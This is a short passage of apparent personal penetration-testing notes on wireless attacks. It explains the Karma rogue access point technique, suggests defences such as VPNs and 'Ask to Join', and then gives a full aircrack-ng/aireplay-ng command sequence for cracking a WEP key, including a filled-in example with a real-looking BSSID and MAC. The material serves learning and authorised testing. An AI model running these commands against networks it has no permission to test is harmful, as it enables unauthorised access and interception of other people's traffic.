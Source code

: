 ```
user	0m0.488s
sys	0m1.544s

```
---karma---
- What goes around...comes around
- Client devices like your laptop, phone, tablet are co  lnsitently sending out probes looking for the last wireless networks you connected to. Karma works by responding to these probes and responds that it is one of your remembered networks.
- You then connect(sometimes unknowingly) and your traffic can be monitored, spoof websites/DNS, inject code, or even strip ssl.
- Protections would be to pay attention to the networks you are connecting to, use a VPN to encrypt your traffic, on an iPhone you can set your wireless to Ask to Join Networks.
- Dont do sensitive things while at a coffee shop.
- Some developers have patched wireless drivers so they do not actively broadcast probe requests whilst connected to an Access Point

Sources

[Wiki](http://wiki.wifipineapple.com/index.php/Karma)
[Reaver](https://code.google.com/p/reaver-wps/)
Penetration Testing A Hands-On Introduction to Hacking by Georgia Weidman


## WEP Code
```
airodump-ng start (interface) #see what APs are using WEP

airodump-ng -c (channel) -w (file name) --bssid (bssid) (interface)

--Open another Konsole

aireplay-ng -1 0 -a (bssid) -h 00:11:22:33:44:55 -e (essid) (interface)

aireplay-ng -3 -b (bssid) -h (your:wireless:MAC) (interface)

----wait for Data to reach 10000

--Open third Konsole

aircrack-ng -b (bssid) (file name-01.cap)



airodump-ng -c 11 -w edimax --bssid 80:1F:02:25:86:0A mon0

aireplay-ng -1 0 -a 80:1F:02:25:86:0A -h 00:C0:CA:6C:9B:68 -e Edimax mon0

aireplay-ng -3 -b 80:1F:02:25:86:0A -h 00:C0:CA:6C:9B:68 mon0

aircrack-ng -b 80:1F:02:25:86:0A edimax-01.cap#
```
